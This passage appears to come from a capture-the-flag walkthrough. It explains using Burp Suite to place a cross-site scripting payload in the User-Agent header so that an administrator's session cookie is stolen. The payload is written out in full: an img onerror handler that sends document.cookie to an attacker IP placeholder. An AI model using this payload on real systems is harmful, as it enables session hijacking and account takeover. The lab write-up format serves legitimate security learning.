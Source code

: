 Ok, let's intercept this request with [Burp Suite](https://portswigger.net/burp), and play with it a bit :

![image](/assets/img/burp1.png)

Knowing that [XSS](https://owasp.org/www-community/attacks/xss/) attacks are blocked specifically, we can therefore conclude that it could be dangerous to do so. We will therefore try to replace a parameter of our request with an [XSS](https://owasp.org/www-community/attacks/xss/) in order to then be able to relaunch it. As seen earlier, our browser information **is sent to the administrator**. So if they see them with their authenticated account and we manage to forge a payload to steal cookies, we will therefore be able to steal the cookie of the authenticated administrator.

Payload ( [GitHub source](https://gist.github.com/leveled/2b5d2b2c458f553b17c65551487cee9b) ) => `<img src=x onerror=this.src='http://<IP>/?c='+document.cookie>`

We will first replace the **IP address** of the payload with our own ( tun0 network interface ), and then replace our user-agent with the payload in question :

![image](/assets/img/burp2.png)
